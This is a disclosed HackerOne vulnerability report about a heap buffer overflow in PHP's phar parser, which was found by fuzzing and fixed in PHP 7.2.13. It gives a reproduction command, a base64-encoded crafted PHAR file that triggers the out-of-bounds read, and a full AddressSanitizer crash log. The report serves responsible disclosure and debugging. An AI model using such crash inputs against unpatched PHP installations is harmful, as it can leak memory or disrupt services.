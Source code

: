 # Heap Buffer Overflow (READ: 4) in phar_parse_pharfile

## Report Details
- **Report ID**: 477344
- **URL**: https://hackerone.com/reports/477344
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-01-09T22:03:25.780Z
- **Disclosed**: 2020-10-10T01:00:02.500Z

## Reporter
- **Username**: cy1337
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Phar files with __HALT_COMPILER(); in unexpected places can lead to a buffer overrun. This is something I found while fuzzing with AFL using an ASAN instrumented PHP.

The issue can be observed by disabling the ZEND allocator and using ASAN (or valgrind/etc?) with a crafted phar as input. I have prepared an example PHAR file *php-oob4.phar*
```
USE_ZEND_ALLOC=0 php -d phar.readonly=0 -r "var_dump(new Phar('php-oob4.phar',0,'project.phar'));"
```
Base64 encoding of *php-oob4.phar* is as follows:
```
X19IQUxUX0NPTVBJTEVSKCk7CgAAANQpRbJAlS4oDzkKFD1B2bK4fX3DAgAAAEdCTUI=
```

OUTPUT
====
The following ASAN report was generated from this test case:
```
=================================================================
==2741==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x60200000ab7a at pc 0x0000013258a7 bp 0x7ffd845ab330 sp 0x7ffd845ab328
READ of size 4 at 0x60200000ab7a thread T0
    #0 0x13258a6 in phar_parse_pharfile /home/cyoung/php-fuzzing/php-src-php-7.2.12/ext/phar/phar.c:973:2
    #1 0x13258a6 in phar_open_from_fp /home/cyoung/php-fuzzing/php-src-php-7.2.12/ext/phar/phar.c:1708
    #2 0x131a6c1 in phar_create_or_parse_filename /home/cyoung/php-fuzzing/php-src-php-7.2.12/ext/phar/phar.c:1343:7
    #3 0x1318503 in phar_open_or_create_filename /home/cyoung/php-fuzzing/php-src-php-7.2.12/ext/phar/phar.c:1316:9
    #4 0x1341705 in zim_Phar___construct /home/cyoung/php-fuzzing/php-src-php-7.2.12/ext/phar/phar_object.c:1195:6
    #5 0x1dc6cbb in ZEND_DO_FCALL_SPEC_RETVAL_UNUSED_HANDLER /home/cyoung/php-fuzzing/php-src-php-7.2.12/Zend/zend_vm_execute.h:907:4
    #6 0x1c15505 in execute_ex /home/cyoung/php-fuzzing/php-src-php-7.2.12/Zend/zend_vm_execute.h:59739:7
    #7 0x1c15f56 in zend_execute /home/cyoung/php-fuzzing/php-src-php-7.2.12/Zend/zend_vm_execute.h:63776:2
    #8 0x1a07225 in zend_eval_stringl /home/cyoung/php-fuzzing/php-src-php-7.2.12/Zend/zend_execute_API.c:1083:4
    #9 0x1a07d6a in zend_eval_stringl_ex /home/cyoung/php-fuzzing/php-src-php-7.2.12/Zend/zend_execute_API.c:1124:11
    #10 0x1a07d6a in zend_eval_string_ex /home/cyoung/php-fuzzing/php-src-php-7.2.12/Zend/zend_execute_API.c:1135
    #11 0x200c501 in do_cli /home/cyoung/php-fuzzing/php-src-php-7.2.12/sapi/cli/php_cli.c:1042:8
    #12 0x200960c in main /home/cyoung/php-fuzzing/php-src-php-7.2.12/sapi/cli/php_cli.c:1404:18
    #13 0x7f21462e082f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
    #14 0x43a598 in _start (/home/cyoung/php-fuzzing/php-src-php-7.2.12/sapi/cli/php+0x43a598)

0x60200000ab7a is located 0 bytes to the right of 10-byte region [0x60200000ab70,0x60200000ab7a)
allocated by thread T0 here:
    #0 0x4da6c8 in __interceptor_malloc (/home/cyoung/php-fuzzing/php-src-php-7.2.12/sapi/cli/php+0x4da6c8)
    #1 0x192899c in __zend_malloc /home/cyoung/php-fuzzing/php-src-php-7.2.12/Zend/zend_alloc.c:2829:14
    #2 0x131a6c1 in phar_create_or_parse_filename /home/cyoung/php-fuzzing/php-src-php-7.2.12/ext/phar/phar.c:1343:7
    #3 0x1318503 in phar_open_or_create_filename /home/cyoung/php-fuzzing/php-src-php-7.2.12/ext/phar/phar.c:1316:9
    #4 0x1341705 in zim_Phar___construct /home/cyoung/php-fuzzing/php-src-php-7.2.12/ext/phar/phar_object.c:1195:6
    #5 0x1dc6cbb in ZEND_DO_FCALL_SPEC_RETVAL_UNUSED_HANDLER /home/cyoung/php-fuzzing/php-src-php-7.2.12/Zend/zend_vm_execute.h:907:4
    #6 0x1c15505 in execute_ex /home/cyoung/php-fuzzing/php-src-php-7.2.12/Zend/zend_vm_execute.h:59739:7

SUMMARY: AddressSanitizer: heap-buffer-overflow /home/cyoung/php-fuzzing/php-src-php-7.2.12/ext/phar/phar.c:973:2 in phar_parse_pharfile
Shadow bytes around the buggy address:
  0x0c047fff9510: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9520: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9530: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9540: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff9550: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
=>0x0c047fff9560: fa fa fa fa fa fa fa fa fa fa fa fa fa fa 00[02]
  0x0c047fff9570: fa fa fd fa fa fa fd fa fa fa fd fa fa fa 02 fa
  0x0c047fff9580: fa fa fd fa fa fa 00 00 fa fa 00 fa fa fa 00 05
  0x0c047fff9590: fa fa fd fa fa fa 00 05 fa fa fd fa fa fa 00 04
  0x0c047fff95a0: fa fa fd fa fa fa 00 fa fa fa fd fd fa fa fd fd
  0x0c047fff95b0: fa fa fd fd fa fa fd fd fa fa fd fa fa fa 00 fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07
  Heap left redzone:       fa
  Heap right redzone:      fb
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack partial redzone:   f4
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==2741==ABORTING
```

## Impact

A context dependent attacker can trigger unsafe memory access. This may reveal information, affect availability, or be used as part of an exploit chain.

This was tracked as [PHP bug 77143](https://bugs.php.net/bug.php?id=77143)
PHP released fixes for supported affected versions on December 6 2018 as noted in their [changelog](http://php.net/ChangeLog-7.php#7.2.13).

## Attachments
No attachments
